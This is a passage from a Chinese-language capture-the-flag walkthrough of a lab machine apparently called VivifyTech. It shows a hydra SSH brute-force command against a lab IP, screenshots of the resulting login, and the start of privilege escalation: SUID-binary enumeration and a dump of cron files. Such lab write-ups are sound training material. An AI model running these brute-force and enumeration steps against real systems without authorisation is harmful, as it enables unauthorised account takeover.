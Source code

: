 爆破出来，前面的用户名和密码都是`secret.txt`的没爆破出来！

尝试继续爆破：

```bash
hydra -L us5r -P secrets.txt ssh://10.160.7.154
```

跑出来了：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737558.png" alt="image-20240319171845455" style="zoom:50%;" />

尝试连接一下：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403191737559.png" alt="image-20240319172056193" style="zoom:50%;" />

## 提权

### 查看基础信息

```bash
sarah@VivifyTech:~$ find / -perm -u=s -type f 2>/dev/null
# /usr/lib/dbus-1.0/dbus-daemon-launch-helper
# /usr/lib/openssh/ssh-keysign
# /usr/bin/passwd
# /usr/bin/chsh
# /usr/bin/su
# /usr/bin/fusermount3
# /usr/bin/mount
# /usr/bin/umount
# /usr/bin/sudo
# /usr/bin/chfn
# /usr/bin/gpasswd
# /usr/bin/newgrp
sarah@VivifyTech:~$ cat /etc/cron*
# cat: /etc/cron.d: Is a directory
# cat: /etc/cron.daily: Is a directory
# cat: /etc/cron.hourly: Is a directory
# cat: /etc/cron.monthly: Is a directory
# # /etc/crontab: system-wide crontab
# # Unlike any other crontab you don't have to run the `crontab'
# # command to install the new version when you edit this file
# # and files in /etc/cron.d. These files also have username fields,
# # that none of the other crontabs do.

# SHELL=/bin/sh
# PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# # Example of job definition:
# # .---------------- minute (0 - 59)
# # |  .------------- hour (0 - 23)
# # |  |  .---------- day of month (1 - 31)
# # |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# # |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# # |  |  |  |  |
# # *  *  *  *  * user-name command to be executed
# 17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
# 25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
# 47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
# 52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
# #
# cat: /etc/cron.weekly: Is a directory
```